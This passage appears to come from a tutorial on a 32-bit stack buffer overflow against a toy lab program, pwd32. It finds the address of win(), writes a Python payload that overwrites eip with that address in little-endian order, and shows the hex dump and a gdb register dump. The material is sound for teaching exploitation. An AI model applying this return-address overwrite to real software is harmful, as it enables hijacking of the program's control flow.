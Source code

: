 Find the memory address of where the `win()` function starts so we can place that location in the `eip`. Here it is `0x5655620b`

### Exploit File

Create an exploit file to write the input we want into the buffer 

```shell
#!/usr/bin/python3

import sys

# 0x5655620b: address where win() function begins
# Intel uses little endian so we write the address from least significant to most significant byte

prefix = b"AAAABBBBCCCCDDDDEEEEFF"
eip = b'\x0b\x62\x55\x56'
postfix = b"GGHHHHIIIIJJJJ"

sys.stdout.buffer.write(prefix + eip + postfix)
```

Running the exploit file, the input displays as: 

```shell
$ ./exploit-pwd32
AAAABBBBCCCCDDDDEEEEFF
                      bUVGGHHHHIIIIJJJJ
```

### Hex dump 

```shell
$./exploit-pwd32 > attack-pwd32
$ xxd attack-pwd32
-rw-r--r-- 1 debian debian 40 Mar 13 22:15 attack-pwd32
00000000: 4141 4141 4242 4242 4343 4343 4444 4444  AAAABBBBCCCCDDDD
00000010: 4545 4545 4646 0b62 5556 4747 4848 4848  EEEEFF.bUVGGHHHH
00000020: 4949 4949 4a4a 4a4a                      IIIIJJJJ

```
Now run the `pwd32` program using the exploit file as input

```shell
$ gdb -q pwd32
Reading symbols from pwd32...
(gdb) break 9
Breakpoint 1 at 0x1201: file pwd.c, line 9.
(gdb) run --args < attack-pwd32
Starting program: /home/debian/pwd32 --args < attack-pwd32
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Password address: 0xffffd4d6

Breakpoint 1, test_pw () at pwd.c:9
9               return 1;
(gdb) info registers
eax            0xffffd4d6          -11050
ecx            0xffffd4fe          -11010
edx            0xf7e1e9c4          -136189500
ebx            0x56558ff4          1448447988
esp            0xffffd4d0          0xffffd4d0
ebp            0xffffd4e8          0xffffd4e8
esi            0x56558ee8          1448447720
edi            0xf7ffcb80          -134231168
eip            0x56556201          0x56556201 <test_pw+84>
eflags         0x282               [ SF IF ]
```